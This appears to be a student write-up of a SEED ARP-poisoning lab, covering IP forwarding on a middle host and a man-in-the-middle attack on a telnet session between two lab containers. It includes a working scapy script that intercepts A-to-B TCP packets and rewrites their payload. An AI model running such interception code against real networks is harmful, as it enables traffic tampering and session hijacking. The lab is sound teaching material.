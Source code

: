 ### Task 2.3: Turn on IP Forwarding
After we poison the caches again, we turn on ip forwarding for host M. We then send a ping request from A to B. Below is the wireshark packet capture:
![image](https://github.com/user-attachments/assets/7b509afd-f039-41de-8fdb-534a72657a8c)
We can see that M makes an ARP request for B and begins forwarding the ping requests from A to B and then back from B to A, acting as the man in the middle.

### Task 2.4: Launch the MITM attack
First, we need to establish a telnet connection from host A to host B (which is being forwarded through host M, our middle man)
```shell
root@ef3a05ea874d:/# telnet 10.9.0.6
Trying 10.9.0.6...
Connected to 10.9.0.6.
Escape character is '^]'.
Ubuntu 20.04.1 LTS
9cd27edc87ad login: seed
Password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-54-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Wed Oct 16 23:06:56 UTC 2024 from A-10.9.0.5.net-10.9.0.0 on pts/2
seed@9cd27edc87ad:~$ ls
```

With this connection established, we now turn off M's ip forwarding. Doing so completely freezes the telnet session; our service has been denied! Sad.

Now let's get into the actual Man in the Middle Attack. We'll use the following scapy script:
```python3
#!/usr/bin/env python3
from scapy.all import *

IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"

def spoof_pkt(pkt):
    if IP in pkt and TCP in pkt:
        if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
            # Create a new packet based on the captured one.
            L3 = IP(src=pkt[IP].src, dst=pkt[IP].dst)
            L4 = TCP(sport=pkt[TCP].sport, dport=pkt[TCP].dport, flags=pkt[TCP].flags, seq=pkt[TCP].seq, ack=pkt[TCP].ack)
            # Construct the new payload based on the old payload.
            if pkt[TCP].payload:
                data = pkt[TCP].payload.load # The original payload data
                newdata = b"Z"
                newpkt = L3/L4/newdata
                del(newpkt.chksum)
                del(newpkt[TCP].chksum)
                send(newpkt)
                print(f"replaced {data} with {newdata}")
            else:
                send(pkt[IP])
```